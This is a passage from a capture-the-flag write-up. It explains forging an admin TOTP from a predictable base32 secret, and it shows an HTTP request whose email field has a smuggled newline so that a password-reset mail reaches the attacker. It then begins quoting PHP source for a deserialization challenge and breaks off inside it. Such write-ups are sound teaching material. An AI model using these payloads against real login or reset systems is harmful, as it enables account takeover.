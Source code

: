 ### Intro

```
Author: @congon4tor#2334

Are you who you say you are? How can you be not?
```

### Solve

The web application have a register,login,secret(create,delete,view),forgot pass and each user is enabled otp by default to login, but the OTP secret only encoded using base32 and is using static key and format like `<username>123456789`

we can construct this url to generate admin otp
`otpauth://totp/2Password:admin?secret=MFSG22LOGEZDGNBVGY3TQOI%3D&issuer=2Password`

The function of forgot pass is vulnerable to SMTP Injection, so we can add our email before the victim email and we both the forgot password email, the payload used below:

```
POST /reset-pass HTTP/1.1
..snip..

{"username":"admin","email":"hacker@gmail.com\nadmin@gmail.com"}
```

After reset the admin password and have the admin otp, just login and fetch the flag like a boss 😎😎

---
# [Medium] Cereal and Milk - 491 points (74 Solves)

### Intro

```
Author: @NightWolf#0268

What do you like for breakfast? Cereal and milk is my favorite.
Sometimes, it tastes a bit odd though.
```

### Solve

This challenge is straigth forward we're given the source code of the apps.

- index.php

```
<?php

include 'log.php';

class CerealAndMilk
{
    public $logs = "request-logs.txt";
    public $request = '';
    public $cereal = 'Captain Crunch';
    public $milk = '';
    

    public function processed_data($output)
    {
        echo "Deserilized data:<br> Coming soon.";
       # echo print_r($output);
        
    }

```